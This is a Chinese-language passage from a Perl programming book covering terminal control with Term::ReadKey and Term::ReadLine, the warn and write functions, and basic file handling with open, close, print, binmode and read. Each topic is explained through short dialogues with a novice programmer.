> *提示：此方法仅适用于终端或终端模拟器，在DOS窗口等环境中无效。*

## Term::ReadKey 简单的终端驱动控制

电话那头的声音喊道：“救命！”是新手程序员。“怎么了？”你问。“我需要一种从用户那里读取密码但又不想在用户输入时让密码显示在屏幕上的方法，”新手程序员说。“好的，”你说，“你可以使用**ReadKey**模块来读取按键而不让它们在控制台回显。”

**ReadKey**模块可从CPAN获取，是一个编译的Perl模块，提供对终端驱动程序的一些简单控制。为了展示这个包能做什么，我将从一些示例开始。

> **提示：**这个模块实际上是一个编译模块，编译部分因系统而异。不过，你现在可以在许多系统上获取**ReadKey**，包括一个针对Windows的初步版本。

## 读取单个按键

你可以使用**ReadKey**方法本身读取单个按键。为此，你首先使用**ReadMode**函数将读取模式设置为**cbreak**，然后这样读取一个按键：

```
use Term::ReadKey;
ReadMode('cbreak');
$char = ReadKey(0);
ReadMode('normal');
print "You typed: $char.\n";
```

*你输入了：q.*

注意，读取按键后，我将读取模式恢复为正常（也称为*cooked*模式）。

## 检查是否有内容被输入

你可以通过使用非阻塞模式下的**ReadKey**函数来检查是否有按键等待读取，这意味着**ReadKey**将立即返回等待的按键，或者如果没有按键等待则返回**undef**。要使用非阻塞模式的**ReadKey**，你向其传递**-1**，如下所示：

```
use Term::ReadKey;
ReadMode('cbreak');

if (defined ($char = ReadKey(-1))) {
    print "This key was waiting: $char.";
} else {
    print "Sorry, no key was waiting.";
}

ReadMode('normal');
```

*抱歉，没有按键等待。*

## 获取屏幕尺寸

要获取你正在使用的屏幕尺寸，你可以使用**ReadKey**模块的**GetTerminalSize**函数，它返回一个包含屏幕宽度和高度（以字符和像素为单位）的列表：

```
use Term::ReadKey;
($widthchars, $heightchars, $widthpixels, $heightpixels)
= GetTerminalSize();
print "Your screen is $heightpixels x $widthpixels pixels.";
```

> 你的屏幕是1024 x 1280像素。

## 读取密码

你可以读取密码并使控制台在用户输入时不回显字符。为此，你只需将读取模式设置为**noecho**：

```
use Term::ReadKey;
print "Type your password: ";
ReadMode('noecho');
$password = ReadLine(0);
```

前面的示例展示了你可以使用**ReadKey**模块做什么；我现在将更系统地介绍这个模块本身。

## ReadKey模块

**ReadKey**模块包含以下函数：

- **ReadMode** — 设置读取模式。
- **ReadKey** — 读取单个按键。
- **ReadLine** — 读取一行输入。
- **GetTerminalSize** — 返回屏幕尺寸。
- **SetTerminalSize** — 设置屏幕尺寸。
- **GetSpeeds** — 获取终端输入和输出速度。
- **GetControlChars** — 获取用于控制功能的字符。
- **SetControlChars** — 设置用于控制功能的字符。

我将在以下各节中详细说明每个函数。

## ReadMode函数

顾名思义，你使用**ReadMode**函数来设置当前读取模式。通常，你这样使用此函数：

```
ReadMode MODE [, FILEHANDLE]
```

如果你不提供文件句柄，**ReadMode**默认为**STDIN**。以下是*MODE*参数的可能值：

- **0** — 恢复原始设置。（你也可以使用'restore'代替0。）
- **1** — 更改为正常模式（也称为cooked模式）。（你也可以使用'normal'。）
- **2** — 更改为关闭回显的cooked模式。（你也可以使用'noecho'。）
- **3** — 更改为cbreak模式。（你也可以使用'cbreak'。）
- **4** — 更改为raw模式。（你也可以使用'raw'。）
- **5** — 更改为ultra-raw模式（这意味着换行符到回车/换行符的转换被关闭）。（你也可以使用'ultra-raw'。）

## ReadKey函数

**ReadKey**函数是一个底层的按键读取例程，允许你处理单个按键和非阻塞读取（即，即使没有按键输入也立即返回的读取）。通常，你这样使用**ReadKey**：

```
ReadKey MODE [, FILEHANDLE]
```

*MODE*参数可以是以下之一：

- **0** — 使用**getc**读取一个字符。
- **-1** — 执行非阻塞读取操作并立即返回；如果没有内容等待读取，**ReadKey**返回**undef**。
- **>0** — 执行定时读取操作，使用*MODE*值作为超时秒数。

## ReadLine函数

**ReadLine**函数读取一行，通常你这样使用它：

```
ReadLine MODE [, FILEHANDLE]
```

*MODE*参数可以是以下之一：

- **0** — 使用以下代码执行正常读取：**scalar(<FILEHANDLE>)**。
- **-1** — 执行非阻塞读取操作并立即返回；如果没有内容等待读取，**ReadLine**返回**undef**。
- **>0** — 执行定时读取操作，使用*MODE*值作为超时秒数。

请注意，**ReadLine**函数在Windows下不可用。


## *GetTerminalSize* 函数

如果你想要获取屏幕的尺寸，可以使用 **ReadKey** 模块的 **GetTerminalSize** 函数：

```
GetTerminalSize [FILEHANDLE]
```

如果该函数已实现，**GetTerminalSize** 会返回一个包含四个元素的数组——分别表示屏幕的字符宽度和高度，以及像素宽度和高度：

```
($widthchars, $heightchars, $widthpixels, $heightpixels)
= GetTerminalSize();
```

如果此调用未实现，你将得到一个空数组。

请注意，在 Windows 下，你必须使用一个输出文件句柄（例如 **STDOUT** 或打开至 **CONOUT$** 的句柄）来调用此函数。

## *SetTerminalSize* 函数

你可以使用 **SetTerminalSize** 函数来设置终端的逻辑尺寸：

```
SetTerminalSize WIDTH, HEIGHT, XPIXELS, YPIXELS [, FILEHANDLE]
```

此函数成功返回 0，失败返回 -1。请注意，它在 Windows 下未实现。

## *GetSpeeds* 函数

**GetSpeeds** 函数返回一个包含两个值的数组——终端的输入和输出速度。通常，你这样使用它：

```
GetSpeeds [, FILEHANDLE]
```

如果操作不受支持，此函数返回一个空数组。请注意，此函数在 Windows 下不受支持。

## *GetControlChars* 函数

你可以使用 **GetControlChars** 函数获取特定系统上使用的控制字符。通常，你这样使用它：

```
GetControlChars [, FILEHANDLE]
```

此函数返回一个可以赋值给哈希的键/值对列表：

```
%controlchars = GetControlChars;
```

哈希中的每个键都有一个对应的值，该值是系统上的控制字符；例如，当前中断字符（如 Ctrl+C）将是 **$controlcharacters{INTERRUPT}**。

此函数返回以下键（**GetControlChars** 返回的列表中每个键都对应一个值）：

-   DISCARD
-   DSUSPEND
-   EOF
-   EOL
-   EOL2
-   ERASE
-   ERASEWORD
-   INTERRUPT
-   KILL
-   MIN
-   QUIT
-   QUOTENEXT
-   REPRINT
-   START
-   STATUS
-   STOP
-   SUSPEND
-   SWITCH
-   TIME

请注意，此函数在 Windows 下未实现。

## SetControlChars 函数

你可以使用 **SetControlChars** 函数来设置系统上的控制字符。你按如下方式使用此函数：

```
SetControlChars ARRAY [, FILEHANDLE]
```

你向此函数传递一个与 **GetControlChars** 函数返回格式相同的键/值对数组。与 **GetControlChars** 一样，此函数在 Windows 下未实现。

## Term::ReadLine 支持命令行编辑

在某些系统上，你可以进行各种命令行编辑，包括访问已键入命令的历史记录。你可以通过使用 **Term::ReadLine** 模块（现在是 Perl 的标准模块）在 Perl 脚本中支持这些操作。

现在，考虑这个例子。在这种情况下，代码将只显示一个提示符（我将其设置为 %），用户可以像在支持编辑和命令历史记录的 shell 中一样输入文本。首先，我通过 **Term::ReadLine** 模块的 **new** 方法获取一个对象：

```
use Term::ReadLine;
$term = Term::ReadLine->new("SuperDuperDataCrunch");
```

现在，我循环遍历用户输入的内容，逐行处理；要将当前行添加到命令历史记录中，我调用 **addhistory** 方法：

```
use Term::ReadLine;
$term = Term::ReadLine->new("SuperDuperDataCrunch");
$prompt = "%";
while (($line = $term->readline($prompt)) ne 'q') {
    $term->addhistory($line);
    print "You typed: $line\n";
}
```

```
%Hello
You typed: Hello
%there
You typed: there
%
```

## warn 显示警告

“我不想使用 **die** 函数，”新手程序员说，“我只想给用户发送警告，而不让程序退出。” “没问题，”你说，“使用 **warn** 函数。”

一种向 **STDERR** 打印的方法是使用 **warn**（另一种当然是使用 **print** 函数直接打印到 **STDERR**）：

```
warn LIST
```

# 第 12 章 内置函数：I/O

**warn** 函数在 **STDERR** 上显示一条消息，但与 **die**（也打印到 **STDERR**）不同，**warn** 不会退出应用程序或创建错误。如果你不带参数调用它，你会得到这种警告：

```
warn;
```

> Warning: something's wrong at script.pl line 1.

如果你设置了 **$@**，该变量中的文本将显示出来，并附加一个制表符和一条消息：

```
$@ = "Overflow error";
warn;
```

> Overflow error  ...caught at script.pl line 2.

你像这样将 **warn** 用作列表运算符：

```
warn "Something's", " rotten", " in", " Denmark";
```

> Something's rotten in Denmark at script.pl line 1.

请注意，如果安装了像这样的警告信号处理程序，则不会打印任何内容：

```
local $SIG{__WARN__} = sub {};
```

## write 写入格式化记录

“我只想显示一些格式化的输出，”新手程序员说。“没问题，”你只需使用 Perl 格式。

你可以将 **write** 函数与 Perl 格式一起使用来显示格式化文本。我将在本章中包含 **write** 函数以保证完整性；有关所有细节和大量示例，请参阅关于格式的章节，即第 8 章。

**write** 函数将格式化记录写入文件句柄，使用与该文件句柄关联的格式；如果你省略文件句柄，**write** 使用 **STDOUT**。通常，你这样使用 **write**：

```
write FILEHANDLE
write EXPR
write
```

如果你指定了一个表达式而不是文件，Perl 将计算该表达式并将其结果视为文件句柄。

在此示例中，我创建一个格式和一个页头格式，并使用它们来显示文本：

```
format STDOUT_TOP =
              Employees
First Name  Last Name   ID      Extension
------------------------------------------
.

format STDOUT =
@<<<<<<<<<<@<<<<<<<<<<@<<<<<<<@<<<<
$firstname  $lastname   $ID     $extension
.

$firstname = "Jimmy";
$lastname = "Stewart";
$ID = 1234; $extension = x456;

write;
```

```
                        Employees
First Name  Last Name   ID      Extension
------------------------------------------
Jimmy       Stewart    1234    x456
```

当然，这个例子只是触及皮毛。再次，请参阅第 8 章以了解有关 Perl 格式的所有细节，因为你会发现更多材料。

# 第 13 章

## 内置函数：文件处理

| 如果你需要以下方面的即时解决方案： | 请参见页码： |
| :--- | :--- |
| **open** 打开文件 | 549 |
| **close** 关闭文件 | 551 |
| **print** 打印到文件 | 552 |
| **write** 写入文件 | 554 |
| **binmode** 设置二进制模式（适用于 MS-DOS） | 555 |
| 设置输出通道缓冲 | 557 |
| 读取从命令行传递的文件 | 558 |
| 使用尖括号运算符 **<>** 从文件句柄读取 | 558 |
| **read** 逐字节读取输入 | 559 |
| **readline** 读取一行数据 | 560 |
| **getc** 获取一个字符 | 561 |
| **seek** 设置文件中的当前位置 | 562 |
| **tell** 获取文件中的当前位置 | 564 |
| **stat** 获取文件状态 | 564 |
| POSIX 文件函数 | 566 |
| **select** 设置默认输出文件句柄 | 567 |
| **eof** 测试文件结束 | 568 |
| **flock** 锁定文件以进行独占访问 | 569 |
| 剥离或添加回车符——从 DOS 到 Unix 再返回 | 570 |
| 在程序代码中存储文件 | 572 |
| 计算文件中的行数 | 573 |
| 将文件句柄传递给子程序 | 574 |
| 复制和重定向文件句柄 | 576 |
| 创建临时文件名 | 577 |
| 就地编辑文件 | 578 |
| 将数组写入文本文件并从中读取 | 579 |
| 将哈希写入文本文件并从中读取 | 580 |
| 使用固定长度记录进行随机访问 | 581 |
| **chmod** 更改文件权限 | 583 |
| **glob** 获取匹配文件 | 584 |
| **rename** 重命名文件 | 585 |
| **unlink** 删除文件 | 585 |
| **copy** 复制文件 | 586 |
| **opendir** 打开目录句柄 | 586 |
| **closedir** 关闭目录句柄 | 587 |
| **readdir** 读取目录条目 | 587 |
| **telldir** 获取目录位置 | 588 |
| **seekdir** 设置目录中的当前位置 | 588 |
| **rewinddir** 将目录位置重置到开头 | 588 |
| **chdir** 更改工作目录 | 588 |
| **mkdir** 创建目录 | 589 |
| **rmdir** 删除目录 | 589 |


## 深入探讨

在本章中，我们将学习 Perl 中的文件处理，特别是那些通常用于操作物理（即磁盘）文件、文件名和目录的函数。这个 Perl 主题内容庞大，部分原因是——正如 Perl 中一贯如此——完成同一件事有不止一种方式。

> 提示：对 Unix 感到陌生的读者请注意：Perl 的文件处理是基于 Unix 文件系统构建的，在很大程度上仍然使用该基本结构，经常用到 Unix 文件权限、符号链接等。你可能需要对操作系统上的 Perl 移植版本进行一些试验，尤其是在设置文件权限模式方面。

## Perl 中的文件处理

大多数程序员都熟悉文件处理的基础知识：要操作文件中的数据，你需要打开文件，获取与该文件对应的文件句柄。这一操作创建了一个输入或输出*通道*，你通过文件句柄在其他文件操作（如读取或写入）中引用该文件。当你完成文件操作后，就关闭它。在本章中，我们将深入探讨这一过程。我们不仅会介绍文件句柄，还会介绍管理文件和目录的函数。

这里需要记住几个约定：其一，在 Perl 中文件句柄名称通常全部大写，以便与 Perl 保留关键字区分开来，因为文件句柄不需要像 `$` 这样的前缀解引用符号。（要将文件句柄当作变量来处理——例如复制它——你需要使用关联的 typeglob。）

另一点需要记住的是，文件处理可能是编程中最容易出错的领域，因此在敏感操作的末尾使用"**or die**"子句是明智的。

还要记住，Unix 使用正斜杠 `/` 来分隔路径名中的目录；如果你的操作系统使用反斜杠 `\\`（即 DOS 和 Windows），你应该在双引号字符串中转义反斜杠（或使用正斜杠）：

```
open (FILEHANDLE, "tmp\\file.txt")
    or die ("Cannot open file.txt");
while (<FILEHANDLE>){
    print;
}
```

## 第 13 章  内置函数：文件处理

另外请注意，由于 Perl 的大部分内容都涉及文件和文件句柄的使用，你会在本书的其他地方找到与本章相关的材料；例如，参见第 4 章了解 **-X** 文件测试运算符，第 10 章了解特殊的文件处理变量（如 **$/** 表示输入记录分隔符；**$,** 表示输出记录分隔符；**$|** 表示文件缓冲等等），以及第 11 章了解可以将数据打包成固定长度记录以用于随机访问文件的函数（如 **pack**、**unpack** 和 **vec**）。

最后，请记住在 Perl 中你总是可以用不止一种方式来完成一项任务，所以如果你在 Perl 文件处理工具集的某个地方找不到某个功能，它可能在另一个地方。例如，Perl 没有任何内置函数来复制文件，但 **File::Copy** 模块有一个 **copy** 方法可以用于此目的。而且，如果你在其他地方都找不到所需的功能，可以查看 **POSIX** 模块中的数十个函数。

事实上，我们将在本章中看到两种主要的文件处理方式。第一种是标准的文件处理方式——使用 Perl 函数 **open** 打开文件并获取文件句柄，**print** 写入该文件句柄，**close** 关闭文件句柄，等等。第二种是使用新的 **IO** 模块，它是面向对象的。**IO** 模块创建面向对象的文件句柄，你使用 `$filehandle->open` 打开它们，使用 `$filehandle->print` 写入，使用 `$filehandle->close` 关闭它们。（对象使用方法而非函数；详见第 18 章。）

大多数标准文件函数在 **IO** 模块方法中都有完全对应的等价物；区别在于，由于你在调用方法时指定了所操作的文件句柄对象（例如 `$filehandle->open`），因此你省略了参数列表中的文件句柄。

> **提示：** 你也可以使用另一组函数来进行基本文件处理：**sysopen**、**sysread** 和 **syswrite**。（在 Perl v5.6.0 中，**syswrite** 的 **length** 参数是可选的。）

我将同时介绍标准函数和 **IO** 模块，因为 **IO** 模块代表了 Perl 文件处理的未来，并且其设计目标是最终超越标准函数。面向对象的 IO 接口更加健壮，将文件句柄视为对象，可以存储在标量变量中；而标准函数中的文件句柄是无类型的，因此会出现各种复杂情况，例如将它们传递给函数时。

综上所述，现在该进入即时解决方案了。

### 即时解决方案

### open 打开文件

新手程序员登场了。"大老板让我写一个数据库程序，"新手说，"但我完全不知道如何处理文件。我该从哪里开始？""从 **open** 函数开始，"你说。

要打开文件，你需要使用 **open** 函数：

```
open FILEHANDLE, MODE, LIST
open FILEHANDLE, EXPR
open FILEHANDLE
```

此函数打开由 *EXPR* 指定名称的文件，并将文件句柄放置在 *FILEHANDLE* 中。文件成功打开后，你可以使用文件句柄在其他文件操作中引用它。如果你省略 *EXPR*，则假设与 *FILEHANDLE* 同名的变量包含文件名。从 Perl v5.6.0 开始，**open** 有三参数版本，其中第二个参数是 *MODE*（文件打开模式），第三个是 *LIST*（要打开的文件列表）。*MODE* 参数包含前缀字符，如 `<`、`>`、`+<`、`+>`、`|-` 等，详见以下列表。

**open** 函数在成功时返回一个真值（非零值）（如果你打开的是管道，**open** 返回子进程的进程 ID），否则返回未定义值。你可以在 *EXPR* 中这样指定文件名：

- 如果文件名以 `<` 为前缀或没有前缀，**open** 函数以输入模式打开文件。
- 如果文件名以 `>` 为前缀，该函数会截断文件并以输出模式打开它（必要时会创建文件）。
- 如果文件名以 `>>` 为前缀，该函数以追加模式打开文件（必要时会创建文件）。
- 如果你在 `>` 或 `<` 前面加上 `+`，该函数会给你同时读写的权限。（你应该使用 `+<` 形式来更新文件，因为 `+>` 形式会先截断文件。）
- 如果文件名以 `|` 为前缀，该函数将文件名解释为要将输出通过管道传送的命令。（参见前一章。）

## 第 13 章  内置函数：文件处理

- 如果文件名的后缀（即文件名之后）是 `|`，该函数将文件名解释为从其通过管道获取输出的命令。（参见前一章。）
- 如果你使用 `-` 作为文件名，该函数打开 **STDIN**。
- 如果你使用 `>-` 作为文件名，该函数打开 **STDOUT**。
- 如果 *EXPR* 以 `>&` 开头，该函数将表达式的其余部分解释为文件句柄的名称（如果是文本）或 Unix 文件描述符（如果是数字）。（注意你也可以在 `>`、`>>`、`<`、`+>`、`+>>` 或 `+<` 之后使用 `&`。）
- 如果 *EXPR* 是 `<&=`*n*，其中 *n* 是一个数字，该函数将 *n* 视为文件描述符，并像 C 的 **fdopen** 函数那样处理它。
- 如果你使用 `|-` 或 `-|` 打开管道，该函数会先 fork 并返回子进程的进程 ID。（更多信息请参见前一章。）

在这个示例中，我以输出模式打开文件 hello.txt 并向该文件打印一些文本；注意当我完成文件句柄的使用后，我会关闭它以告知 Perl 我已使用完毕：

```
open (FILEHANDLE, ">hello.txt") or die "Cannot open hello.txt";
print FILEHANDLE "Hello!";
close (FILEHANDLE);
```

*Hello!*

> **提示：** 你也可以使用 Unix 的 **tee** 程序将一个文件句柄连接到多个文件（如果你的系统支持的话），像这样：*open (FILEHANDLE, "| tee Filename1 Filename2");*

你可以打开文件 hello.txt 并使用尖角运算符 `<>` 从中读取，像这样：

```
open (FILEHANDLE, "<hello.txt") or die ("Cannot open hello.txt");
print <FILEHANDLE>;
close (FILEHANDLE);
```

*Hello!*

现在，让我向你展示如何使用 **IO** 模块来打开一个文件以进行写入。首先，使用 **IO::File** 模块创建一个新的文件句柄；然后，你可以使用 **open** 方法打开文件——其工作方式与 **open** 函数完全一样——并像这样向该文件打印文本：

```
use IO::File;
$filehandle = new IO::File;
```


## close 关闭文件

"现在，我知道如何打开文件了，"新手程序员说，"下一步是什么？" "学习如何*关闭*它们，"你回答。

当你完成对一个打开的文件或管道的操作后，可以使用 **close** 函数来关闭它，将所有缓冲数据发送到该文件或管道，并结束你对它的文件操作。**close** 函数的工作方式如下：

```
close FILEHANDLE
close
```

此函数在能成功刷新文件缓冲区并关闭文件时返回 true。如果你未指定文件句柄，此函数将关闭当前选中的文件句柄。（有关更多细节，请参阅本章后面对 **select** 函数的描述。）

当你关闭一个管道时，**close** 函数会等待管道进程结束，以便你可能想检查管道的输出（并且管道命令的退出状态会在 **$?** 中）。

现在，看一个使用 **close** 的例子：

```
open (FILEHANDLE, ">hello.txt") or die "Cannot open hello.txt";
print FILEHANDLE "Hello!";
close (FILEHANDLE);
```

*Hello!*

**IO** 模块有一种并行的关闭文件的技术；在这种情况下，你不使用 **close** 函数，而是使用 **close** 方法：

```
use IO::File;
$filehandle = new IO::File;
$filehandle->open(">hello.txt") or die "Cannot open hello.txt";
$filehandle->print("Hello!");
$filehandle->close;
```

*Hello!*

另一种关闭通过 **IO** 模块方法打开的文件的方式是对文件句柄使用 **undef**，如下所示：

```
use IO::File;
$filehandle = new IO::File;
if ($filehandle->open("<hello.txt")) {
    print <$filehandle>;
    undef $filehandle;
}
```

## print 打印到文件

"好吧，"新手程序员说，"我能够打开和关闭文件了，但这并不能帮助我实际向文件写入任何内容。我难道不应该使用 **write** 函数吗？" "嗯，"你说，"**write** 函数实际上是用于使用 Perl 格式来写入格式化文本的。" "那么，"新手程序员说，"我应该用什么？" "你通常使用 **print**，"你回答。

我们在整本书中，包括前一章，都见过 **print**。此函数将一个列表打印到一个文件句柄，其使用方式如下：

```
print FILEHANDLE LIST
print LIST
print
```

以下是我们本章已经见过的一个例子，其中我打开一个文件，向它打印，然后关闭它：

```
open (FILEHANDLE, ">hello.txt") or die ("Cannot open hello.txt");
print FILEHANDLE "Hello!";
close (FILEHANDLE);
```

> Hello!

**print** 函数在成功时返回一个 true 值。如果你未指定文件句柄，此函数将打印到 **STDOUT** 或当前选中的输出通道。（有关如何选择输出通道，请参阅本章中 **select** 函数的描述。）如果你还省略了 *LIST*，此函数将打印 *$_* 到输出通道。

IO 模块的 **print** 方法与 **print** 函数的工作方式相同。此示例展示了如何使用 **print** 方法将文本 "Hello!" 写入文件：

```
use IO::File;
$filehandle = new IO::File;
$filehandle->open(">hello.txt") or die "Cannot open hello.txt";
$filehandle->print("Hello!");
$filehandle->close;
```

> Hello!

因为 **print** 是一个列表函数，你可以像这样将列表打印到文件，其中我将一个数组写入文件（注意我在这里将输出记录分隔符 —— *$,* —— 设置为换行符）：

```
open (FILEHANDLE, ">array.dat")
    or die ("Cannot open array.dat");
$, = "\n";                 # 设置输出分隔符为换行符
@array = (1, 2, 3);
print FILEHANDLE @array;
close FILEHANDLE;
```

我如下读取我刚刚写入的数组：

```
open (FILEHANDLE, "<array.dat")
    or die ("Cannot open array.dat");
chomp(@array = <FILEHANDLE>);
close FILEHANDLE;
print join (', ', @array);
```

> 1, 2, 3

## write 写入文件

"但是，"新手程序员说，"我确实想使用 Perl 格式向文件写入格式化文本，而不仅仅是使用 **print** 函数写入字符串。我该怎么做？" "那样的话，"你说，"你就使用 **write**。"

你可以像使用 **print** 一样使用 **write** 来写入文件：

```
write FILEHANDLE
write EXPR
write
```

我们在第 8 章中看到了很多关于编写 Perl 格式的内容（更多细节请查阅那里）。你使用 **write** 来写入格式化的记录，而不是作为一个通用的文件写入例程（参阅本章前面的主题 "**print** 打印到文件"）。

在下面的示例中，我将一个格式化的记录写入文件 format.txt：

```
open (FILEHANDLE, ">format.txt") or die ("Cannot open format.txt");
format FILEHANDLE =
@<<<<<<<<<<<@>>>>>>>>>>>>>>
$text1       $text2
.
```

```
$text1 = "Hello";
$text2 = "there!";

write FILEHANDLE;
close (FILEHANDLE);
```

```
Hello                there!
```

**IO** 模块也有一个 **write** 方法，但它与 **write** 函数不同。你使用 **IO** 模块的 **write** 方法将未格式化的数据写入文件，非常类似于 **print**。通常，你像这样使用 **write** 方法：

```
$filehandle->write(BUFFER, LENGTH [, OFFSET])
```

在这种情况下，**write** 方法从 *BUFFER* 的 *OFFSET* 位置开始，向文件写入 *LENGTH* 字节。现在，看这个示例，它展示了如何使用 **write** 将一些数据发送到文件：

```
use IO::File;
$filehandle = new IO::File;
$filehandle->open(">hello.txt") or die "Cannot open hello.txt";
$text = "Hello!";
$filehandle->write($text, length($text));
$filehandle->close;
```

*Hello!*

那么，如何使用 **IO** 模块向文件写入格式化文本呢？你改用 **format_write** 方法。首先，你像这样创建一个命名格式：

```
use IO::File;
format TEXTFORMAT =
@<<<<<<<<<<@>>>>>>>>>>>>>>>
$text1     $text2
.

$text1 = "Hello";
$text2 = "there!";
```

然后，你打开一个新文件：

```
$filehandle = new IO::File;
$filehandle->open(">format.txt") or die "Cannot open format.txt";
```

接着，你将格式的名称传递给 **format_write**，以将格式化文本发送到文件。注意，格式不是标准变量，因此为了避免 Perl 假设格式在 **IO** 模块中，我在格式名称前加上两个冒号，以表示该格式位于主包中：

```
$filehandle->format_write (::TEXTFORMAT);
$filehandle->close;
```

*Hello*              *there!*

好了，这就是全部内容。

> **提示：** *写入文件的标准方式实际上是使用 **print** 函数；如果 **write** 不是你想要的，请参阅本章前面的主题 "**print** 打印到文件"。*

## binmode 设置二进制模式（适用于 MS-DOS）

技术支持部门打来电话。他们说："你编写的那个创建图像文件的程序有问题。" "什么问题？"你问，"我彻底测试过了。" "在 MS-DOS 上没有，"他们说；"该程序将数据作为文本文件写出，这意味着它在整个图像文件中添加了回车符和换行符。" "哦，"你说，"对于那样的二进制文件来说这可不是好消息。现在怎么办？" "使用 Perl 的 **binmode** 函数，"他们说。

某些操作系统（如 MS-DOS）对文件的二进制模式和文本模式进行了区分。在这些系统上，换行符（即，行馈送符，`\n`）在输出时会自动转换为回车符-换行符对（即，`\r\n`），而在输入时，回车符-换行符对会被转换为换行符。此外，每当你使用 **print** 写入一行时，都会在行尾插入回车符-换行符对。

为了确保你写入的数据不经过这样的操作——换句话说，写入文件的只是你写入的内容——你可以使用 **binmode**：

```
binmode FILEHANDLE, DISCIPLINE
binmode FILEHANDLE
```

这里，*FILEHANDLE* 是你正在操作的文件的文件句柄。从 Perl v5.6.0 开始，**binmode** 也支持第二个参数 *DISCIPLINE*，你可以用它来设置模式；此参数可以是 **:raw** 表示二进制模式，或者 **:crlf** 表示文本模式（包括回车符-换行符对）。如果你省略 *DISCIPLINE* 参数，默认是二进制模式。

考虑在 MS-DOS 下的这个例子。在这个例子中，我将一个中间带有换行符的文本字符串打印到一个文件：

```
open (FILEHANDLE, ">data.txt")
    or die ("Cannot open data.txt");
print FILEHANDLE "Hello\nthere!";
close (FILEHANDLE);
```

现在，当我使用 MS-DOS 的 **debug** 工具直接查看文件时，你会看到输出文件确实包含一个 `\r\n` 对（Unicode 0x0d 0x0a）而不是换行符，并且在行尾添加了一个 `\r\n` 对（这里的所有值都是十六进制）：

```
C:\>debug data.txt
-d
107A:0100  48 65 6C 6C 6F 0D 0A 74-68 65 72 65 21 0D 0A DE
Hello..there!...
```

另一方面，如果你使用 **binmode**，你会看到输出只包含一个换行符，行尾没有 `\r\n` 对：

```
open (FILEHANDLE, ">data.txt")
    or die ("Cannot open data.txt");
binmode FILEHANDLE;
print FILEHANDLE "Hello\nthere!";
close (FILEHANDLE);
```


# 第13章 内置函数：文件处理

现在来看另一个例子。在第11章中，我编写了一个解码文件（例如在Usenet上编码的文件）的示例；为了写入二进制输出文件，我必须在DOS中使用**binmode**：

```perl
open INFILEHANDLE, "<data.uue";
open OUTFILEHANDLE, ">data.dat";
binmode OUTFILEHANDLE;   # 在MS DOS中是必需的！
while (defined($line = <INFILEHANDLE>)) {
    print OUTFILEHANDLE unpack('u*', $line);
}

close INFILEHANDLE;
close OUTFILEHANDLE;
```

这段代码在Unix和MS-DOS下都能工作，因为在Unix下，**binmode**不起作用。

*注意：IO模块尚不支持**binmode**。*

| 相关解决方案： | 所在页码： |
| :--- | :--- |
| **unpack** 从打包字符串中解包值 | 502 |

### 设置输出通道缓冲

你可以通过将预定义变量**$|**设置为非零值，强制Perl在每次打印（或写入）操作后刷新其输出缓冲区：

```perl
$| = 1;
```

否则，输出将被缓冲，仅在缓冲区满或通道关闭时才写入。你可以使用**autoflush**函数实现相同的功能，其用法如下：

```perl
autoflush HANDLE EXPR
```

**IO**模块也支持**autoflush**方法：

```perl
$filehandle->autoflush EXPR
```

### 读取命令行传递的文件

新手程序员出现了，说：“我想让用户在启动我的脚本时直接在命令行上指定要处理的文件。我可以这样做吗？” “当然可以，”你说，“请坐。”

当你在命令行上传递文件名时，这些文件会提供给你的代码，就像这里我传递文件file.txt和file2.txt一样：

```bash
%printem file.txt file2.txt
```

现在，你可以用这样的循环来读取这些文件的内容，这里我打印文件file.txt和file2.txt中的文本：

```perl
while (<>) {
    print;
}
```

```
Here's
a
file!
Here's
another
file!
```

### 使用尖角运算符<>从文件句柄读取

“这太棒了，”新手程序员说，“现在，我可以打开并写入文件了。但是，我只有一个问题。” “什么问题？” 你问。 “我如何*读取*我写入文件的内容？” 新手程序员问道。 “啊，”你微笑着说，“你可以用多种方式做到这一点。” “我就知道你会这么说，”新手程序员说。 “第一种方法，”你说，“是使用尖角运算符。”

**<FILEHANDLE>** 表达式——**<** 和 **>** 组合在一起称为*尖角运算符*——返回文件的下一行输入。使用此表达式对于从已打开的文件读取很有用，例如在这个例子中，我读取名为file.txt的文件中的所有文本：

```perl
open (FILEHANDLE, "<file.txt")
    or die ("Cannot open file.txt");
while (<FILEHANDLE>){
    print;
}
```

*Here's*
*a*
*file!*

如果你省略文件句柄，**<>**运算符将从**STDIN**读取。

你可以像这样对使用**IO**模块打开的文件句柄使用尖角运算符：

```perl
use IO::File;
$filehandle = new IO::File;
$filehandle->open("<hello2.txt") or die "Cannot open hello.txt";
print <$filehandle>;
$filehandle->close;
```

*Hello!*

如果你在数组上下文中使用尖角运算符，它将读取文件中的所有行并将它们放入数组中。

请注意，IO模块还包括**$filehandle->getline**方法，它与使用**<$filehandle>**类似，只是如果你在数组上下文中调用它，它仍然只返回一行；以及**$filehandle->getlines**方法，该方法设计为仅在数组上下文中使用，以读取文件中的所有行。

| 相关解决方案： | 所在页码： |
| :--- | :--- |
| 文件I/O运算符：**<>** | 179 |

### read 逐字节读取输入

> “使用尖角运算符对很多目的来说很好，”新手程序员说，“但我需要更多控制。我的代码写入格式化记录，所以我想一次只读取一定数量的字节。我该怎么做？” “没问题，”你说，“使用**read**。它会给你所需的控制。”

你使用**read**函数从文件句柄读取数据：

```perl
read FILEHANDLE, SCALAR, LENGTH, OFFSET
read FILEHANDLE, SCALAR, LENGTH
```

此函数尝试从**FILEHANDLE**读取**LENGTH**个字节，并将该数据存储在**SCALAR**中；你可以指定**OFFSET**，以便从文件开头以外的某个位置开始读取操作。该函数返回实际读取的字节数。在下面的示例中，我逐字节读取文件：

```perl
open (FILEHANDLE, "<file.txt") or die "Cannot open file.txt";
$text = "";
while (read (FILEHANDLE, $newtext, 1)){
    $text .= $newtext;
}
print $text;
```

*Here's*
*a*
*file!*

你也可以使用**IO**模块打开的文件句柄的**read**方法；只需在调用中省略文件句柄。现在，看看使用IO模块编写的前面的例子：

```perl
use IO::File;
$filehandle = new IO::File;
$filehandle->open("<file.txt") or die "Could not open file.txt";
$text = "";
while ($filehandle->read($newtext, 1)) {
    $text .= $newtext;
}
print $text;
$filehandle->close;
```

*Here's*
*a*
*file!*

### readline 读取一行数据

“那么，我可以使用尖角运算符和**read**来读取文件，”新手程序员说，“我可以使用其他方式吗？” “当然，”你说，“你可以使用其他函数，例如**sysread**；POSIX函数；或者我最喜欢的函数之一**readline**。”

你向**readline**传递一个求值为文件句柄的*typeglob*的表达式。（有关更多信息，请参见本章后面的“将文件句柄传递给子例程”主题。）在标量上下文中，**readline**函数读取一行数据并返回它；在列表上下文中，**readline**读取直到文件末尾，并返回输入行的列表：

```perl
readline EXPR
```

